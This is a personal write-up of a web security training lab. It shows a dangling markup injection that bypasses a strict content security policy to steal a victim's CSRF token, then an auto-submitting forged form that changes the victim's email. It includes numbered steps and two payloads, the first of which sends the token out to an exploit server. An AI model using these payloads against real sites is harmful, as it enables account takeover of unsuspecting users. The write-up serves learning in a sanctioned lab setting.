# LAB: Reflected XSS protected by very strict CSP, with dangling markup attack

## Objective:

- steal the csrf token of vicim user.
- Use the csrf token of victim to change its email to hacker@evil-user.net

## Key Concepts:

- CSRF tokens
- Dangling markup

## Steps Taken:

1. Login with the provided credentials.
2. View page source of the update email form for any csrf tokens.
3. Change the value of email field using query parameters.
4. Prepare a form payload with dangling markup.
5. Make sure that the form included the hidden csrf token input field innside it.
6. Use the exploit server URL in the action attribute of the payload form.
7. Append the payload in the lab URL next to ?email= query and remove the id query from payload which is there by default.
8. Copy the payload and deliver the exploit to the victim with the URL as the location within script tags.
9. Check the exploit server logs and find the csrf token of the victim which can be identified by the IP which is other then your machine IP.
10. Prepare a second payload which will be a simple html page with a form that will be redirected to the lab URL followed by the email update endpoint.
11. add the input fields in the html form, both will be hidden. One with the email that the lab wants us to change the victim email to, and the other will be csrf input field with the value of the victim csrf token that we got from the exploit server logs from the previous exploit delivered to the victim.
12. Submit the form automatically through the javascript, as soon as the page is loaded.
13. Deliver the exploit to the victim using the exploit server and than a simulated user is supposed to be visiting the site and his email will be changed to the one that we had provided in te 2nd payload's email field value.

## Payloads Used:

<!--

----------Payload 1----------

"></form>
<form
  class="login_form"
  name="myform"
  method="get"
  action="https://exploit-0a0b0026048e5f7a806202ce016a00e9.exploit-server.net/exploit"
>
  <button class="button" type="submit">Click</button

-->

<!--

----------Payload 2----------

<html>
  <body>
    <form
      action="https://0a7c00c804525f5180a7034800a300c4.web-security-academy.net/my-account/change-email"
      method="post"
    >
      <input type="hidden" name="email" value="hacker@evil-user.net" />
      <input
        type="hidden"
        name="csrf"
        value="tqjq7kVoT9KYE0ovK4FNYfFTpnJ4srVp"
      />
    </form>
  </body>
  <script>
    document.forms[0].submit();
  </script>
</html>

-->

## Issues Encountered:

- Faced issue to fetch value of csrf token using dom manipulation.
- Didn't knew I had to create a formData object to replicate real form.
- Payload was not working when I directly made the API call.

## Solutions/Workarounds:

- Inspected the target application, focused on each step at a time to expand the result of each step and then finally found the csrf attribute value.
- Saw a follow-up video and came to know about that we can create form data using the formData class object.
- Because, my script was dependent on first fetching the value from DOM, I had to wait till the DOM is loaded fully, so for that I had to use DOMContentLoaded eventlistener.

## Takeaways:

- CSRF tokens are just random strings provided in response from server to protect unwillingly made XSS driven actions.
- When the script is dependent on the DOM manipulation, make sure to wait until DOM is fully loaded
